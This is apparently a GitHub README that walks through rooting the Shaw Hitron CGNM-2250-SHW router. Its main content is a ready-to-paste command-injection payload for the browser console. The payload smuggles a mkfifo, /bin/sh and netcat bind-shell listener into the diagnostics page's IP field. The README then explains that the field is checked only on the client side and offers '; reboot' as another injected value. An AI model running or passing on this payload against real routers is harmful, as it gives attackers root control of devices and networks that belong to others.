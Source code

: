 # Getting a Root shell on the CGNM-2250-SHW Router
How to root CGNM-2250-SHW (Shaw Hitron Router)

I was messing around this weekend while putting of doing my COM100 project and I found this jucy vuln that gives you a root shell. Best of all its super easy to do, there are only 3 steps.

__1. login to the admin page of the rounter__
![admin page](https://github.com/CanadianCommander/CGNM-2250-SHW-Root/blob/master/HitronLogin.png)


__2. Paste this command in to the web browser console__

```
$.post("/goform/TestIp", {csrf_token: $("#csrf_token").val(), model: '{"TestIpAddress":"; rm -f /dev/myF; mkfifo /dev/myF; cat /dev/myF | /bin/sh -i 2>&1 | nc -l -p 1234 > /dev/myF;","UserType":"1","inputip":1,"TestMode":0}'}, function (data) {console.log(data)})
```
![run command in browser console](https://github.com/CanadianCommander/CGNM-2250-SHW-Root/blob/master/injectCommand.png)

__3. open a terminal and netcat to the router on port 1234__
![terminal netcat](https://github.com/CanadianCommander/CGNM-2250-SHW-Root/blob/master/rootShell.png)

As you can see you now get a jucy root shell (root is the only user that exists on the system). Have fun messing around!

## Additonal informat
  This exploit is a command injection exploit that targets the Admin Diagnostics page. On this page you can do two things. One run a ping on some ip and two run a traceroute on some ip. The vuln comes about because the ip is only checked client side (in the js code). Thus by injecting our own post command we bypase the checks and the server will place what ever we pased as the ip address in to the ping/traceroute command, `ping <our code>`. This allows us to do remote code execution. For example, to reboot the rounter we use the string `; reboot` which resolves to, `ping ; reboot` on the server.
